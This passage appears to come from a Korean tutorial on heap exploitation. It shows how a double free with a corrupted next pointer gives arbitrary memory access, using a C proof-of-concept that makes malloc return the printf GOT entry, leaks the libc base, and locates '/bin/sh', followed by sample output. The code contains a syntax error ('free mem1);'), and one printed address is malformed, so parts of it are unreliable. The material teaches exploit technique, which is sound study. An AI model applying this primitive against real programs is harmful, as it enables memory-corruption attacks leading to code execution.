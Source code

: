 이렇게 double free가 가능한 상황에서 next 멤버변수를 조작하여 double free를 임의 메모리 읽기/쓰기 프리미티브로 만들 수 있다. 이는 다음과 같이 free list를 구성한다는 것을 의미한다.

```
[ 할당될 메모리 ] -> [ 0x4141414141... ] -> ...
                ^
                |
                +---조작된 next 멤버변수
```

이를 다음과 같은 예시 코드로 살펴보자.

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

/* gcc -no-pie dfb.c -o dfb */
int main()
{
    unsigned char *mem1, *mem2, *mem3;
    unsigned char *libc_base_addr;

    mem1 = malloc(4);
    printf("mem1: %p\n", mem1);
    free mem1);
    *(mem1 + 8) = 0xef;
    free (mem1);
    *((uint64_t *) mem1) = 0x0000000000404020; /* address of printf (GOT) */
    mem2 = malloc(4);
    printf("mem2: %p\n", mem2);
    printf("mem2->next: %016lx\n", *((uint64_t *) mem2));
    mem3 = malloc(4);
    printf("mem3: %p\n", mem3);
    
    /* At this point, mem3 content is the absolute address of printf */
    printf("mem3 content: %016lx\n", *((uint64_t *) mem3));

    /* 0x61cc0 is a index of printf in libc.so.6 */
    libc_base_addr = *((uint64_t *) mem3) - 0x61cc0;
    printf("libc base address: %016lx\n", libc_base_addr);

    /* 0x1b45bd is a index of /bin/sh string in libc.so.6 */
    printf("/bin/sh: %p %s\n", libc_base_addr + 0x1b45bd,
    		     	       libc_base_addr + 0x1b45bd);
    return 0;
}
```

위 코드를 실행하면 다음과 같은 결과를 얻는다.

```
mem1: 0x7f82a0
mem2: 0x7f82a0
mem2->next: 0000000000404020
mem3: 0x404020
mem3 content: 00007fb4d4001cc0
libc base address: 00007fb4d4d3fa000
/bin/sh: 0x7fb4d41545bd /bin/sh
```
